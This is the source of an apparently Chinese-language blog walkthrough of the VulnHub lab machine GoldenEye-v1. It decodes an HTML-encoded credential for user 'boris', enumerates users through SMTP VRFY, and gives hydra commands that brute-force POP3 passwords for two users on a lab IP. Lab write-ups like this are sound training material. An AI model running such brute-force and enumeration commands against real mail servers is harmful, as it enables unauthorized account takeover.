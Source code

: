 ```yaml
---
layout: post
title:  "vulnhub >_ GoldenEye-v1"
description: walkthrough
category: vulnhub
---
```

# GoldenEye-v1

![image-20200628205842666]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628205842666.png)

![image-20200628210117442]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628210117442.png)

![image-20200628203148585]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628203148585.png)

![image-20200628203234215]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628203234215.png)

```bash
boris:&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;
```

并且额外知道了另一个用户natalya

bp使用html解码

![image-20200628203338181]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628203338181.png)

```bash
boris:InvincibleHack3r
```

![image-20200628203539893]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628203539893.png)

![image-20200628203814681]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628203814681.png)

再没有更多的信息了。

尝试使用得到的凭证在25端口上复用，但是失败。

尝试利用已知的两个用户名，在25端口上进行暴力。

首先通过VRFY命令确认用户名是否存在，

![image-20200628204444559]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628204444559.png)

两个用户都存在，分别爆破密码

```bash
hydra -v -l boris -P /usr/share/wordlists/fasttrack.txt -t 20 192.168.43.239 -s 55007 -I pop3
hydra -v -l natalya -P /usr/share/wordlists/fasttrack.txt -t 20 192.168.43.239 -s 55007 -I pop3
```

![image-20200628210521185]({{ site.url }}/assets/GoldenEye-v1.assets/image-20200628210521185.png)
